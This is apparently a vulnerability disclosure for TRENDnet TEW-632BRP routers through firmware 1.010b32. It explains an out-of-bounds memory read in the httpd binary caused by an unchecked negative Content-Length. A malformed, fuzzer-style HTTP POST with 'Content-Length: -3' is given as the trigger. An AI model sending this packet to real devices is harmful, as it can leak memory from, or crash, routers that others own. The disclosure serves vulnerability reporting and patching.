 # TEW-632BRP
## Firmware version
TEW-632BRP devices through 1.010b32
## description
TRENDnet TEW-632BRP devices through 1.010b32 contain a read oob caused by integer overflow in the httpd binary. The oob allows an authenticated user to read arbitrary lengths of memory.
## detail
the bug in fucntion httpd_main, binary fs/sbin/httpd at address 0x4078cc witch read the "Content-Length" field from the message without check if it is negative.
The parameter read at address 0x4078cc throuth calling strtoul, it is then passed to get_pure_content as the fourth parameter. get_pure_content calls the safe_read in a do while loop but without check if the length to read is negative entering the loop. 
![image_text](negative_length2.png)
![image_text](negative_length.png)
## Send package
```txt
<OST c0
\FF8
U
\FF\85\EC
Co\A7tent-LengthennnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnhnnnnnnnnnnnnnPOST /apcTX bytes:
SOAPACTION:HNAP1z
Content-Length: -3

nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnzywzywzywzywzywzywzywzywzywzywzywzywzywzunnnnnnnnnnn}nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnn\91nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnn]nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnn\91nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnn]nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnST /+url_nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnngth2
@\00ntent-Length:0
SOgs/
Contenturl_domain_filterngtnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnngth2
@\00ntent-Length:0
SOgs/
Contenturl_domain_filterngth: \97ip_19-Le_trdst_z/
Content-L\00\00\80gOB@ 
```
